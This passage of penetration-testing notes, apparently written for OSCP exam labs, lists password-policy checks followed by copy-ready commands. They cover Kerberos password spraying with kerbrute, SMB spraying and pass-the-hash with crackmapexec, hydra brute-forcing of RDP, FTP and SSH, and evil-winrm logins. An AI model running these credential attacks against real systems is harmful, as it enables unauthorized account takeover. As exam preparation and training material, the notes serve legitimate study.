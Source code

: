- Make a list of users
    - make sure to differentiate `local` and `domain` users!
- Make a list of hashes and passwords or anything you think might be a password
    - `domain_hashes.txt`
    - `domain_passwords.txt`
- Check the `password policy` to make sure you're not locking yourself out
    - **On Windows:**`net accounts /domain`
    - **On Kali:** `cme smb 172.16.10.10 --pass-pol` (Might need valid creds)

---

### 04. SPRAY EVERYTHING

- specify with and without domain
- [[[Pass the Hash]]](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)

### Kerberos

**Password Spray** `proxychains -q /home/kali/go/bin/kerbrute passwordspray -d oscp.exam users.txt hghgib6vHT3bVWf --dc <IP> -vvv` 

**Bruteforce** `proxychains -q /home/kali/go/bin/kerbrute bruteuser -d oscp.exam jeffadmin passwords.txt --dc <IP> -vvv`

### SMB

`proxychains -q /home/kali/.local/bin/cme smb <IP> -u users.txt -p passwords.txt -d medtech.com --continue-on-success`

`proxychains -q /home/kali/.local/bin/cme smb <IP> -u users.txt -p passwords.txt --continue-on-success`

`cme smb <IP> -u users.txt -H '<HASH>' --continue-on-success`

`cme smb <IP> -u users.txt -p passwords.txt --continue-on-success --local-auth`

### RDP

`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt rdp://<IP>:3389 -u -vV -T 40 -I`

`hydra -V -f -L users.txt -P passwords.txt rdp://<IP> -u -vV -T 40 -I`

### WinRM

`evil-winrm -i <IP> -u jeffadmin -p 'password'`

`evil-winrm -i <IP> -u jeffadmin -H 'HASH'`

### FTP

`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ftp://<IP>:21 -u -vV -T 40 -I`

### SSH

`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ssh://<IP>:22 -u -vV -T 40 -I`
